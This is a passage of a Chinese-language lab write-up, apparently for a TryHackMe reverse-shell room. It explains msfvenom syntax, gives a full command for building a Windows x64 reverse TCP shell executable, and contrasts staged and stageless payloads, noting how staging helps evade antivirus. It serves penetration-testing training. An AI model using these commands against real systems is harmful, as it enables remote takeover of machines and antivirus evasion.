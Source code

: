 > PayloadsAllTheThings项目链接：
>
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

**答题**

![image-20221007192658945](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007192658945.png)

## Msfvenom生成shell payload

Msfvenom作为 Metasploit 框架的一部分，主要用于生成用于反向和绑定 shell 的代码。 它被广泛用于开发低等级的exp，如：在开发缓冲区溢出漏洞exp时生成十六进制 shellcode；但是，它也可用于生成各种格式的有效负载（例如 .exe、.aspx、.war、.py）。 我们将在本节中使用Msfvenom的后一个功能。

msfvenom 的标准语法如下：

```shell
msfvenom -p <PAYLOAD> <OPTIONS>
```

例如，要以 exe 格式生成 Windows x64反向 Shell，我们可以使用:

```shell
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

![image-20221007194522119](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007194522119.png)

这里我们设定一个有效载荷涉及到四个参数选项:

* `-f <format>`
*
  * 指定输出格式。 在上面的命令中，格式是一个可执行文件 (exe)
* `-o <file>`
*
  * 生成的有效载荷（payload）的输出位置和文件名。
* `LHOST=<IP>`
*
  * 指定要回连的 IP（即攻击机IP）。 当你使用 TryHackMe 的VPN连接到你自己的攻击机时，这将是你的 tun0 IP 地址。
* `LPORT=<port>`
*
  * 要回连的本地攻击机上的端口。 可以是 0 到 65535 之间尚未使用的任何值；但是设定为低于 1024 的端口时将受到限制，需要以 root 权限运行监听器。

**Staged vs Stageless**（分段和不分段）

在我们进一步讨论之前，必须介绍另外两个概念：分段的反向 shell 有效负载、不分段的反向 shell 有效负载。

* 分段的反向shell有效载荷分两部分发送。第一部分称为stager，这是一段直接在服务器本身上执行的代码，它会回连攻击机上等待的监听器，但它本身并不包含任何反向 shell 代码。第一部分的stager将连接到监听器并使用连接来加载真正的有效载荷，这样能直接执行真正的payload并防止真正的payload接触到磁盘，以免被传统的反病毒解决方案拦截。 因此，此类有效载荷分为两部分——一个小的初始段，然后是在初始段启动时所下载的更大的反向 shell 代码段。 分段的有效载荷需要一个特殊的监听器——通常是Metasploit multi/handler，这将在下一个小节中介绍。
* 不分段的反向shell有效载荷更常见——这些也是我们迄今为止一直在使用的。 它们是完全独立的，因为在成功执行一段代码时会立即将 shell 发送回攻击机上等待的监听器。

不分段的有效载荷往往更易于使用和捕获； 但是，它们也更庞大，并且更容易被防病毒或入侵检测程序发现和删除。

分段的有效载荷更难使用，但它的初始段要短得多，有时会被效率较低的防病毒软件遗漏。 现代防病毒解决方案还将利用反恶意软件扫描接口 (AMSI：Anti-Malware Scan Interface) 来检测有效载荷，这使得分段有效载荷不如以前那么有效。
